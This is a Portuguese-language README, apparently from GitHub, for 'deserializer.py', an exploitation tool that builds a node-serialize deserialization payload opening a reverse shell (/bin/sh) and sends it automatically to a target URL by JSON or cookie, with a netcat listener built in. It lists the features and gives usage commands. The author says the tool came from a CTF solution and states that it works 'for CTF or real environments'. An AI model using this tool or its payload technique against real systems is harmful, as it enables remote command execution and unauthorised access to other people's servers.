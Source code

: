 # 🧬 deserializer.py

![dese](https://github.com/user-attachments/assets/7c3f398f-3da5-4cef-9e70-62d08141e59f)


Ferramenta de exploração para **Node.js Deserialization (node-serialize)** com suporte à execução automatizada de payloads **Reverse Shell**.

Este script foi feito para **gerar, codificar e opcionalmente enviar automaticamente** um payload malicioso para aplicações Node.js vulneráveis à deserialização. Ele suporta envio via JSON direto no corpo da requisição ou através de cookies.
Criado para CTF (resolução) e quis postar o mesmo aqui. **Serve tanto para CTF ou ambiente real**!

---

## 🚀 Funcionalidades

- Geração de payload malicioso com shell reversa (`/bin/sh`) usando `node-serialize`.
- Codificação automática em Base64 para uso em cookies.
- Envio automático do payload com listener embutido.
- Suporte ao envio via **JSON** ou **Cookie**.
- Uso simples por linha de comando com parâmetros.

---


## Atenção:

- Ele passa o payload no campo "email" e o campo poderá/deverá ser alterado para o campo que a aplicação receberá!

---

## 📦 Requisitos

- Python 3.6+
- `requests` (`pip install requests`)
- `netcat` (`nc`) instalado no sistema

---

## 🧠 Como funciona

O script gera um payload com a tag `_$$ND_FUNC$$_`, usada em exploits de `node-serialize`, onde uma função JavaScript é deserializada e executada no backend Node.js. Ao ser executado, ele conecta ao seu IP e porta definidos, abrindo uma shell remota.

---

## 🛠️ Uso

### Geração simples do payload

    python3 deserializer.py <LHOST> <LPORT>

### Envio automático já com a reverse shell + tipo de payload para cookie:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --cookie

### Envio automático já com a reverse shell + tipo de payload para json:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --json

